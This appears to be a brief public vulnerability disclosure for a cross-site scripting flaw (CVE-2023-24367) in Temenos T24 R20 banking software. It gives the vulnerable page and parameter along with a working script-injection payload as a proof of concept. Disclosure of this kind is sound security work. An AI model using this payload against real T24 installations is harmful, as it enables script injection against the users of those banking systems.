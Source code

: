 ## Exploit Title: Cross Site Scripting in Temenos T24 R20
## Exploit Author: Omar Jezi
## Vendor Homepage: [https://www.temenos.com/](https://www.temenos.com/)
## Version: R20
## CVE : CVE-2023-24367

T24 was discovered to contain a cross-site scripting (XSS) vulnerability via genrequest.jsp in "routineName" parameter

payload :

jsps/genrequest.jsp?routineName="><script>alert(1)</script>

![alt text](https://raw.githubusercontent.com/mrojz/T24/main/T24_XSS_POC.png)

